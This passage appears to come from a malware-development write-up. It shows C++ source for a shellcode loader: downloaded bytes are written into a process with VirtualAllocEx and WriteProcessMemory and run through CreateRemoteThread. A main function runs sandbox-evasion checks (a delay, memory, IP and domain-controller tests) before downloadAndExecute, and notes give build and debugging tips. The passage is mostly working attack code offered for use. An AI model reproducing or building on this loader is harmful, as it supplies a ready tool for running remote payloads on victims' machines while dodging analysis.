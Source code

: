 ```cpp
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);
    cout << "[+] Memory Allocated at:" << memAddr << "\n";

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}

int main() {
    Sleep(60000);
    if (memoryCheck() == TRUE && checkIP() == TRUE && isDomainController() == TRUE) {
        downloadAndExecute();
    }
    else {
        cout << "Some sandbox evasion failed.\n";
    }
    return 0;
}
```

**Note 2: Don't forget adding External Dependencies `Netapi32.lib` in Visual Studio**.

**Note 3: If your DNS check has `if(dcNewName.find("\\"))` instead of `if(dcNewName.find("\\\\"))` then you may have difficulties with the sleep check.**

<u>Output</u>:

![](/assets/img/Pasted image 20230131112550.png)

